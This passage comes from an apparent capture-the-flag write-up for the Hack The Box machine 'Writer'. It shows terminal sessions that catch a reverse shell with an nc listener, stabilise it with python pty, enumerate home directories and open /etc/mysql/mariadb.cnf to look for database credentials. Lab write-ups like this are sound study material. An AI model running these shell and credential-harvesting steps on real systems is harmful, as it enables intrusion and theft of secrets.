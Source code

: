 ![Modifying request using burp](https://github.com/joelczk/writeups/blob/main/HTB/Images/writer/file_burp.PNG)

### Obtaining reverse shell
Now, we would have obtained a reverse shell. We will first stabilize the shell
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000             
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 49678
bash: cannot set terminal process group (981): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@writer:/$ export TERM=xterm
export TERM=xterm
www-data@writer:/$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@writer:/$ 
```

Now we also realize that there are 2 users -- ```john``` and ```kyle``` on this terminal

```
www-data@writer:/$ cd home
cd home
www-data@writer:/home$ ls
ls
john  kyle
www-data@writer:/home$ 
```
### Obtaining database credentials
Navigating to ```/etc/mysql``` we are able to find a ```mariadb.cnf``` that contains credentials to the mysql database

```
www-data@writer:/home$ cd /etc/mysql
cd /etc/mysql
www-data@writer:/etc/mysql$ ls
ls
conf.d  debian-start  debian.cnf  mariadb.cnf  mariadb.conf.d  my.cnf  my.cnf.fallback
www-data@writer:/etc/mysql$ cat mariadb.cnf
cat mariadb.cnf
# The MariaDB configuration file
#
# The MariaDB/MySQL tools read configuration files in the following order:
# 1. "/etc/mysql/mariadb.cnf" (this file) to set global defaults,
# 2. "/etc/mysql/conf.d/*.cnf" to set global options.
```